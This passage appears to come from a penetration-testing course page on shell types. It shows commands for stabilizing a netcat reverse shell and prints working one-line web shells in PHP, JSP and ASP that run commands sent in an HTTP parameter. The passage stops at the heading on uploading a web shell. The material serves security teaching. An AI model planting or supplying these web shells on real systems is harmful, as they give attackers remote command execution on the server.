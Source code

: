 Types of Shells

```shell
6165@htb[/htb]$ echo $TERM xterm-256color
```

Types of Shells

```shell
6165@htb[/htb]$ stty size 67 318
```

The first command showed us the `TERM` variable, and the second shows us the values for `rows` and `columns`, respectively. Now that we have our variables, we can go back to our `netcat` shell and use the following command to correct them:

Types of Shells

```shell
www-data@remotehost$ export TERM=xterm-256color www-data@remotehost$ stty rows 67 columns 318
```

Once we do that, we should have a `netcat` shell that uses the terminal's full features, just like an SSH connection.

___

## Web Shell

The final type of shell we have is a `Web Shell`. A `Web Shell` is typically a web script, i.e., `PHP` or `ASPX`, that accepts our command through HTTP request parameters such as `GET` or `POST` request parameters, executes our command, and prints its output back on the web page.

#### Writing a Web Shell

First of all, we need to write our web shell that would take our command through a `GET` request, execute it, and print its output back. A web shell script is typically a one-liner that is very short and can be memorized easily. The following are some common short web shell scripts for common web languages:

Code: php

```php
<?php system($_REQUEST["cmd"]); ?>
```

Code: jsp

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

Code: asp

```asp
<% eval request("cmd") %>
```

___

#### Uploading a Web Shell
